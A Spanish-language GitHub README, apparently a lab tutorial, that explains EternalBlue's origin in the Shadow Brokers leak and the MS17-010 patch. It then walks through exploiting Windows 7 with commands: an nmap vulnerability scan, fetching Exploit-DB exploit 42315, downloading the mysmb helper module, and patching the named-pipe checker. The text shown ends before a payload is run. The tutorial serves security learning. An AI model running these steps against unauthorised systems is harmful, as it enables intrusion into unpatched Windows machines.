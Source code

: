 <p align="center">
  <a href="https://github.com/DenverCoder1/readme-typing-svg"><img src="https://readme-typing-svg.herokuapp.com?font=Fira+Code&size=19&pause=1000&color=D1F700&width=489&lines=Explotar+Windows+7+con+exploit+EternalBlue"></a>
</p>

<h1 align="center"></h1>

<h3 align="center"><ins>VULNERABILIDAD y ORIGEN de ETERNALBLUE</ins></h3>

EternalBlue es un exploit desarrollado por la NSA (Agencia de Seguridad Nacional de los EE.UU) y filtrado por el grupo de hackers Shadow Brokers el 14 de abril de 2017, el grupo se filtro en la base de datos de la agencia y desde allí accedieron a todo tipo de herramientas y exploits que luego publicaron en venta. Luego de que el exploit fuera liberado, los ciberdelincuentes no tardaron en aprovecharse para atacar hospitales, empresas y gobiernos con dicha vulnerabilidad; fue utilizado en el ataque mundial de ransomware con <a href="https://es.wikipedia.org/wiki/WannaCry">WannaCry</a>. Los ataques aumentaron desconsideradamente y para la NSA no le quedo otra opción que reportar la vulnerabilidad a Microsoft y que esté lance un parche para corregirla.

EternalBlue se aprovecha de una vulnerabilidad en el protocolo Server Message Block (SMB) de Microsoft, cuyo protocolo permite compartir archivos e impresoras conectadas a la red. Estaba presente en todos los sistemas operativos Windows: Windows Vista SP2; Windows Server 2008 SP2 and R2 SP1; Windows 7 SP1; Windows 8.1; Windows Server 2012 Gold and R2; Windows RT 8.1; and Windows 10 Gold. Aunque Microsoft libero una actualización de seguridad  el 14 de marzo de 2017 que resolvió el problema a través del parche <a href="https://docs.microsoft.com/en-us/security-updates/securitybulletins/2017/ms17-010">MS17-010</a>, seguidamente se extendió a versiones antiguas de Windows (Windows XP, Windows 8 y Windows Server 2003).

La vulnerabilidad es capaz de otorgar el control completo sobre una máquina por medio de ejecucción de código arbitrario a nivel administrador sin requerir la interacción del usuario. Si bien es cierto que a día de hoy esta vulnerabilidad ha sido parchada, pero no significa que no debamos estar alerta ya que en la actualidad hay empresas que siguen utilizando versiones antiguas de Windows que no tienen soporte (Ej. Windows 7), así como también para uso doméstico en computadoras antiguas.

</br>

<h4 align="center">Grupo The Shadow Brokers</h4>

El grupo de Shadow Brokers apareció por primera vez en el verano del 2016. Fue reconocido por sus publicaciones en donde filtraban herramientas de hacking, exploits y vulnerabilidades zero-day del "Equation Group", una rama de la NSA clasificada como una amenaza persistente avanzada. Los exploits estaban dirigidos a firewalls empresariales, software, productos de Windows, smart TVs, smartphones y otros dispositivos para recopilar información. Las publicaciones de Shadow Brokers indicaban que tenían programas de espionaje dirigidos a productos de Juniper, Fortigate, Cisco y Topsec, así como también el código del gusano informático Stuxnet (utilizado para atacar las instalaciones de uranio de Irán).

El grupo de hackers tenía una web bajo ZeroNet donde subastaban los exploits directamente y de uno en uno, los precios iban desde 1 y 100 bitcoins pero la sala de subasta no tenia suficiente actividad, por lo que nadie quería comprarlos en su momento. Los intentos de venta han sido por medio de comunicados en inglés, y que según estos, tienen faltas de ortografía, lo que deduce que no son estadounidenses y que trabajan para un gobierno en específico. Hasta la fecha su cuenta de <a href="https://twitter.com/shadowbrokerss/status/879955121878204416">Twitter</a> sigue existiendo desde agosto de 2016 pero sin señales de actividad desde su última publicación en donde ofrecen servicios individuales VIPs para hackear una organización, obtener información confidencial o comprar herramientas via email.

<p align="center">
  <img src="https://www.muyseguridad.net/wp-content/uploads/2017/04/Shadow-Brokers.jpg">
</p>

##### WEBGRAFÍA:

- https://es.wikipedia.org/wiki/EternalBlue

- https://en.wikipedia.org/wiki/The_Shadow_Brokers

<h1 align="center"></h1>

### EXPLOTAR ETERNALBLUE | Manual

Con el script (*smb-vuln-ms17-010*) de Nmap comprobamos si el sistema es o no vulnerable a EternalBlue:
```
sudo nmap --script smb-vuln-ms17-010 <TARGET>
```
![1](https://user-images.githubusercontent.com/75953873/187816900-9f93b05a-4a26-4c31-8688-8c01d989c8aa.png)

Efectivamente, el sistema es vulnerable a EternalBlue. Ahora faltaría bajar localizar el exploit y descargarlo con Searchsploit:
```
searchsploit eternalblue
```
![2](https://user-images.githubusercontent.com/75953873/187817250-1095f790-fbd9-4e0f-8a20-d4d2e71a5f87.png)

Exploit: Microsoft Windows 7/8.1/2008 R2/2012 R2/2016 R2 = **42315**
```
searchsploit -m 42315
```
El exploit esta programado con Python3 y es necesario el módulo mysmb para hecharlo andar, así que ejecutamos el siguiente comando para descargarlo:
```
wget https://raw.githubusercontent.com/worawit/MS17-010/master/mysmb.py
```
Si ejecutamos el código podemos observar que no presenta errores de módulos:

![3](https://user-images.githubusercontent.com/75953873/187817618-3481722e-5597-494b-bbc6-1921667df305.png)

Las tuberías con nombre (named pipes) son una forma de que los procesos en ejecucción se comuniquen entre sí con muy poca sobrecarga, generalmente aparecen como nombre de archivos para que otros procesos se adjunten. Metasploit tiene un escáner que encontrará cualquier tubería con nombre de un host, pero yo prefiero utilizar un script de forma manual: https://github.com/zzwlpx/ms17010-nsa-EternalBlue/blob/master/checker.py

Después de descargar y ejecutar el código, lo más normal es que le salte el siguiente error:

![5](https://user-images.githubusercontent.com/75953873/188349074-f68ddd3e-7bfa-4148-885e-9dce04ca2ea3.png)

Esto ocurre porque la función `str` se utiliza para devolver una cadena, no para imprimir una. Para solucionarlo debemos editar el código `mysmb.py`, primeramente se debe comentar la línea 229 y 230, luego agregar las siguientes líneas:
```python
req = pkt.getData()
return b'\x00'*2 + pack('>H', len(req)) + req
```
![6](https://user-images.githubusercontent.com/75953873/188349925-e476d8c8-7cef-4932-b599-1a33e810e63e.png)

Si ejecutamos el checker ya funciona correctamente:

![4](https://user-images.githubusercontent.com/75953873/188350039-bb044a50-4fae-42d7-9bc8-0567caf97dbb.png)

Named pipes aceptados: browser, netlogon, lsarpc, samr
